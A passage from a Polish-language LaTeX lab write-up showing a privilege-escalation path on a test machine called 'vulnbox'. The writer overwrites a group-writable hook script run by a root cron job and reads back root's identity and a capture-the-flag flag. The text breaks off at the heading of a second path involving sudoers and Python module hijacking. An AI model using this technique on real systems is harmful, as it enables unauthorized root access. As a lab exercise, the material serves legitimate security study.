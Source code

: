 \subsection{Ścieżka A: Zadanie cykliczne Cron i skrypt z uprawnieniami grupy dev}
\label{subsec:sciezka-a-cron}

W pierwszym kroku odczytano definicję zadania  oraz sprawdzono uprawnienia skryptu .

\begin{lstlisting}[language=bash, caption={Inspekcja zadania cron oraz uprawnień pliku pre\_backup.sh}, label={lst:e2e-cron-inspect}]
dev@vulnbox:~$ cat /etc/cron.d/vulnbox-maintenance
# /etc/cron.d/vulnbox-maintenance
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
* * * * * root /opt/admin/backup_check.sh >/dev/null 2>&1

dev@vulnbox:~$ ls -la /opt/admin/hooks/pre_backup.sh
-rwxrwxr-x 1 root dev 106 Nov 23 21:15 /opt/admin/hooks/pre_backup.sh
\end{lstlisting}

Z uwagi na uprawnienia \texttt{0775} dla grupy \texttt{dev} (listing \ref{lst:e2e-cron-inspect}), otwarto plik  w edytorze \texttt{nano} (\texttt{nano /opt/admin/hooks/pre\_backup.sh}) i zapisano w nim kod przedstawiony na listingu \ref{lst:e2e-cron-nano}.

\begin{lstlisting}[style=code, language=bash, caption={Zawartość skryptu /opt/admin/hooks/pre\_backup.sh zapisana w edytorze nano}, label={lst:e2e-cron-nano}]
#!/usr/bin/env bash
set -euo pipefail
id > /tmp/cron_verify.out
cat /root/root.txt >> /tmp/cron_verify.out
chmod 0600 /tmp/cron_verify.out
chown dev:dev /tmp/cron_verify.out
\end{lstlisting}

Po odczekaniu jednego cyklu harmonogramu (\texttt{sleep 65}) odczytano utworzony przez demona \texttt{cron} plik.

\begin{lstlisting}[language=bash, caption={Odczyt wyniku wykonania zadania cron i flagi /root/root.txt}, label={lst:e2e-cron-exec}]
dev@vulnbox:~$ sleep 65 && cat /tmp/cron_verify.out
uid=0(root) gid=0(root) groups=0(root)
FLAG{R00t_Pwn3d!9zW6@kL3#bT8_sys%4mX2}
\end{lstlisting}

\subsection{Ścieżka B: Reguła sudoers.d i przechwycenie modułu Pythona}
\label{subsec:sciezka-b-sudo}

